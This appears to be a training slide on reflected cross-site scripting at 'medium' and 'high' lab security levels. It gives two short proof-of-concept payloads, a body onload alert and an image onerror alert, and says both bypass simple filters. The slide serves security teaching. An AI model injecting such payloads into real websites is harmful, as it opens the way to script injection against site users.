

# Reflected XSS (Medium & High Security)
Medium Example:
<body onload=alert("Welcome")>

High Example:
<IMG SRC=/ onerror="alert('Your Website has been hack')"></img>

These payloads bypass simple filters and demonstrate higher attack sophistication.